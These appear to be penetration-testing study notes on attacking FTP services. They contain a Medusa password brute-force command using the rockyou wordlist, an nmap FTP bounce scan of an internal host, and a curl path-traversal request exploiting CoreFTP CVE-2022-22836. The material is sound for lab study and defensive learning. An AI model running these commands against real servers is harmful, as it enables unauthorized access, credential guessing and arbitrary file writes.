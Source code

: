 brute forcing ftp with medusa
```shell-session
 medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```
can use -U for username list
alt: [[Crackmapexec]] [[Hydra]]



More importantly
# FTP Bounce Attack 
use FTP server to deliver outbound traffic to another device 
use PORT command to trick FTP connection into running commands and getting information from a device other than the intended server


## Example
Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

![Diagram showing attacker using an intermediate device to connect to a target, execute commands, and receive sensitive data.](https://academy.hackthebox.com/storage/modules/116/ftp_bounce_attack.png)

```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
but modern ftp servers have protections unless its misconfigured 

# CoreFTP CVE-2022-22836
FTP service does not correctly process HTTP PUT request and that leads to an authenticated directory/path traversal and arbitrary file write outside the directory to which the service has access to

FTP services that uses HTTP POST request to upload files
```shell-session
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```